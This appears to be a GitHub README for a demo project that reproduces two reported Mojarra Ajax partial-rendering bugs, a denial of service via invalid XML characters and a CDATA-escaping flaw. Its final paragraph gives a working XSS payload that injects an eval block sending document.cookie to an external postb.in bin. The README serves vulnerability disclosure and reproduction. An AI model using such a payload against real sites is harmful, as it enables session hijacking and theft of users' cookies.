# mojarra-ajax
Minimal demo to reproduce some issues with mojarra partial update.

To reproduce just run
````bash
mvn package wildfly:run
````
and wait for the server to start up.

## Issue: [Ajax update fails due to invalid characters in response XML (DoS)](https://github.com/eclipse-ee4j/mojarra/issues/4516)

Open the url <http://localhost:8080/ajax/index.xhtml>.

It also works for user supplied inputs, open <http://localhost:8080/ajax/input.xhtml> and enter the [\u000C](https://r12a.github.io/uniview/?charlist=%0C#title) character 
into the input field.

## Issue: [Partial rendering: insufficient CDATA encoding (XSS)](https://github.com/eclipse-ee4j/mojarra/issues/4392)

Open the url <http://localhost:8080/ajax/issue4392.xhtml>, enter `]]>` and click at the button to see the XML parser crashing (denial of service).

However, this vulnerability might also be used to inject arbitrary javascript (XSS). Just enter `]]></update><eval><![CDATA[window.open("https://postb.in/Lsmfz95D?cookie="+encodeURIComponent(document.cookie));]]></eval><update><![CDATA[` and see how your cookies have been sent to https://postb.in/b/Lsmfz95D.
